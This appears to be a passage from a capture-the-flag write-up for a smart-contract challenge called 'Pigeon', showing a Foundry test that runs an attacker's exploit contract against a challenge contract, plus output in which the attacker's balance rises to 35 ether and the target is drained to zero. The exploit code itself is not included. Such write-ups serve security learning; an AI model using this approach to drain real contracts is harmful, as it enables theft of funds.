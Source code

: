 ### Foundry test

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import "../src/Setup.sol";
import "../src/exploit.sol";

contract pigeonTest is Test {
    Setup public setup_contract;
    Pigeon public pigeon;
    address public attacker;
    PigeonExploit public exploit;

    function setUp() public {
        setup_contract = new Setup{value: 30 ether}();
        pigeon = setup_contract.pigeon();
        attacker = makeAddr("attacker");
        vm.deal(attacker, 5 ether);
    }

    function testExploit() public {
        vm.startPrank(attacker);
        
        exploit = new PigeonExploit();
        exploit.exploit(address(pigeon));
                
        console.log(address(attacker).balance);
        console.log(address(pigeon).balance);
        assertTrue(setup_contract.isSolved());
    }
}
```

### Foundry test result

```
# forge test --match-path test/pigeon.t.sol -vv
[⠑] Compiling...
No files changed, compilation skipped

Running 1 test for test/pigeon.t.sol:pigeonTest
[PASS] testExploit() (gas: 643255)
Logs:
  35000000000000000000
  0

Test result: ok. 1 passed; 0 failed; finished in 1.94ms
```
